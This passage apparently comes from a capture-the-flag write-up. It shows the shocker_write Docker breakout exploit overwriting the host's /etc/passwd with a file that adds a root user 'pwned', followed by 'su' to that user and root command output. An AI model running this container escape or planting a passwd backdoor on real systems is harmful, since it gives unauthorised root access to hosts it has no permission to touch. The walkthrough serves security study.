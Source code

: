 **Transfer the `shocker_write` exploit binary and the modified `passwd` file, then run the exploit:**
```shell
/tmp/shocker_write_static /etc/passwd /tmp/passwd
[***] docker VMM-container breakout Po(C) 2014 [***]
[***] The tea from the 90's kicks your sekurity again. [***]
[***] If you have pending sec consulting, I'll happily [***]
[***] forward to my friends who drink secury-tea too! [***]

<enter>

[*] Resolving 'etc/passwd'
[...]
[*] Found passwd
[+] Match: passwd ino=394935
[*] Brute forcing remaining 32bit. This can take a while...
[*] (passwd) Trying: 0x00000000
[*] #=8, 1, char nh[] = {0xb7, 0x06, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00};
[!] Got a final handle!
[*] #=8, 1, char nh[] = {0xb7, 0x06, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00};
Success!!
```

```shell
saul@talkative:~$ tail -n 1 /etc/passwd
pwned:$1$wP0CIs/a$aUfbpJGnlYxt4wlvcPups0:0:0:pwned:/root:/bin/bash
```

It worked!

**Let's Switch User to our newly created user:**
```shell
saul@talkative:~$ su pwned
Password: 
root@talkative:/home/saul# whoami; hostname; id; ip a
root
talkative
uid=0(root) gid=0(root) groups=0(root)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:3c:10 brd ff:ff:ff:ff:ff:ff
    inet 10.10.11.155/23 brd 10.10.11.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:feb9:3c10/64 scope link 
       valid_lft forever preferred_lft forever
[...]
```

I'm root! :D
